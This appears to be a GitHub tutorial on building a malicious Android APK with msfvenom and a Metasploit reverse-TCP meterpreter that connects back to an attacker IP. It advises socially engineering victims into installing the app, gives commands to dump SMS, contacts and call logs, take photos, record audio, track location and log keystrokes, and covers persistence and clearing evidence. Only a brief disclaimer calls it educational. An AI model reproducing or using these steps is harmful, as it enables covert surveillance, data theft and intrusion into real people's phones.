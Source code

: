 Creating Payloads for Controlling an Android Device Using Metasploit
Metasploit allows you to generate payloads that can give you remote access to an Android device. Here’s a step-by-step guide on how to create, deploy, and control an Android device using a Metasploit payload.

### 📌 Step 1: Generate the Android Payload (APK)
Use msfvenom to create a malicious APK file that establishes a reverse connection to your attacker machine.

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o payload.apk
```
LHOST: Your attacker's (Kali Linux) IP address.
LPORT: The listening port (default: 4444).
Output: payload.apk (malicious application for Android).
### 📌 Step 2: Deliver and Install the Payload on the Target
You need to socially engineer the target into installing the APK. Some methods:

Send via email, messaging apps, or fake websites.
Embed it in a legitimate-looking application.
Rename it to something appealing (e.g., free_wifi.apk).
After installation, the victim must enable "Install from Unknown Sources" for it to work.

### 📌 Step 3: Set Up a Listener in Metasploit
Now, you need to set up a listener in Metasploit to receive connections from the infected Android device.

Launch Metasploit Framework:
```bash
msfconsole
```
Set Up Multi-Handler to Listen for Connections:
```bash
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
This will wait for the target device to connect back once the APK is opened.
### 📌 Step 4: Gaining Control of the Android Device
Once the payload is executed on the victim’s phone, you will get a meterpreter session. Here are some useful commands:

## 1️⃣ Check Active Sessions
```bash
sessions -i
```
Lists all connected devices.
## 2️⃣ Interact with a Device
```bash
sessions -i <session_id>
```
Replace <session_id> with the actual session number.
### 📌 Step 5: Post-Exploitation Commands
Once inside the Android device, you can execute various commands.

## 📂 File System Control
List Files:
```bash
ls
```
Change Directory:
```bash
cd /sdcard
```
Download a File:
```bash
download /sdcard/DCIM/image.jpg /root/
```
Upload a File:
```bash
upload /root/hack.txt /sdcard/
```
Delete a File:
```bash
rm /sdcard/file.txt
```
## 📷 Camera & Microphone Access
Take a Picture (Front Camera):
```bash
webcam_snap -i 2
Record Audio from Mic:
```
```bash
record_mic -d 10
```
(Records 10 seconds of audio.)
## 📍 Location Tracking
Get GPS Location:
```bash
geolocate
```
## 📱 Extract SMS & Contacts
Dump SMS Messages:
```bash
dump_sms
```
Extract Call Logs:
```bash
dump_calllog
```
Extract Contacts:
```bash
dump_contacts
```
### 📲 Remote Control
Send an SMS from the Victim’s Phone:
```bash
sms_send -d +919876543210 -t "Hello from hacked phone"
```
Make a Call:
```Edit
dial +919876543210
```
Vibrate the Phone:
```bash
vibrate 5
```
(Vibrates for 5 seconds.)
### 📞 Monitoring & Keylogging
Enable Keylogger:
```bash
keyscan_start
```
### Stop Keylogger:
```bash
keyscan_stop
```
### Read Keystrokes:
```bash
keyscan_dump
```
### 📌 Step 6: Maintain Persistence (Backdoor)
By default, once the user restarts their phone, the connection will be lost. To maintain access:

## Use app cloning methods.
Inject payloads into legitimate apps.
Install persistent shells (requires root access).
Example command for keeping meterpreter running:

```bash
run persistence -X -i 10 -p 4444 -r 192.168.1.100
```
-X → Auto-start on boot.
-i 10 → Reconnect every 10 seconds.
### 📌 Step 7: Clearing Evidence
To avoid detection, clear logs:

```bash
rm -rf /sdcard/payload.apk
clear
```
To exit the session:

```bash
exit
```
### 📌 Legal Disclaimer
This information is for educational purposes only. Unauthorized access to devices without consent is illegal and punishable under cybersecurity laws. Always obtain explicit permission before conducting penetration tests.

### 📌 Conclusion
By following these steps, you can: ✅ Create an Android payload using msfvenom.
✅ Deploy and control an Android device remotely.
✅ Execute powerful commands for data extraction, GPS tracking, and remote control.

For ethical hacking practice, use Android virtual machines or your own test devices in a controlled environment. 🚀
